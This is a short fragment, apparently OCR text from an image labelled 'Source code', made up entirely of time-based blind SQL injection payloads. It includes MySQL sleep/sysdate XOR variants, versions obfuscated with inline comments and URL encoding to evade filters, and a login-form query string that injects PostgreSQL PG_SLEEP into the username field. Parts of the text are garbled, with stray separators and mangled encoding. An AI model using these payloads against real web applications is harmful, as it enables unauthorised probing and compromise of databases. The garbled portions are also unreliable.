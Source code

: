 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'
'XOR(if(now()=sysdate(),slee/\*\*/p(6),0))XOR'

XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z

1%27/\*\*/%256fR/\*\*/50%2521%253D22%253B%2523 == 

"0\"XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z", === query=login&username=rrr';SELECT 

PG_SLEEP(5)--&password=rr&submit=Login == ' AND (SELECT 8871 FROM (SELECT(SLEEP(5)))uZxz)